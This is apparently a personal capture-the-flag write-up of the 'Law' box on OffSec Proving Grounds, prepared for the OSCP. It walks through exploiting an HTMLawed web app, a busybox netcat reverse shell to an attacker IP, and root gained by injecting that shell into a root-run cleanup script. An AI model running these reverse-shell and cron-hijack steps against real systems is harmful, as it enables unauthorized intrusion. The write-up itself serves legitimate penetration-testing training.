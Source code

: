 ```yaml
---
title: "Law - Proving Grounds"
excerpt: "A Writeup of the Law Box from Proving Grounds<br><img src='/assets/images/Law/Law_1.png'>"
collection: portfolio
---
```



Here is a writeup for the Law lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). Let's kick things off as usual with an nmap scan, using `-v` so we can investigate as we go. We see there is a web server on port 80 and check it out. 

![Law_1.png](/assets/images/Law/Law_1.png){: .center-aligned width="600px"}

From the project's github, HTMLawed is "a highly customizable PHP script to sanitize / make (X)HTML secure against XSS attacks, so users can edit HTML without risk of your site getting compromised by evildoers." Noted.

We find an exploit-db shell script, but through Google rather than exploit-db or searchsploit because it is actually misspelled with two "L's". 

![Law_4.png](/assets/images/Law/Law_4.png){: .center-aligned width="600px"}

It seems to work immediately with the busybox shell: `busybox nc 192.168.45.154 80 -e /bin/bash`. Exciting, I feel like I never see that. Maybe the privesc is the tough part. 

![Law_3.png](/assets/images/Law/Law_3.png){: .center-aligned width="600px"}

This time I `cd ..` my way out of the working directory in case I see a local.txt file, and I do in `/var/www`. Cool. I missed that on the Crane box. 

I can't run `sudo -l` without a password, and I don't see any interesting SUID binaries when I run `find / -type f -perm -u=s 2>/dev/null`, so I download linpeas to check things out and run it. Unfortunately nothing jumps out at me immediately beyond kernel exploits like PwnKit and DirtyPipez. Usually I want to avoid this in a lab environment like this as it is likely the creators had a different path planned, but I'll make a note of them. 

I download and run pspy64 to see if I can find anything interesting there while I think, and I see this: `2024/07/20 17:48:01 CMD: UID=0     PID=14435  | /bin/bash /var/www/cleanup.sh` run a few times. That could be interesting if root is running it, and we can modify. We can tell root is running it because it says the `UID=0`. We could also tell if we ran `lse.sh -l1`, but not linpeas. 

Turns out we can, so we add the busybox shell to the cleanup script and wait. 

![Law_2.png](/assets/images/Law/Law_2.png){: .center-aligned width="600px"}

![Law_5.png](/assets/images/Law/Law_5.png){: .center-aligned width="600px"}

A minute later, we catch a root shell, and snag the proof.txt. Nice!

This machine was fairly straightforward once I googled the web service and realized it was misspelled. Then is was just a matter of seeing what processes were running and realize I could abuse one of them. Also - another win for the busybox shell, that's good to know. 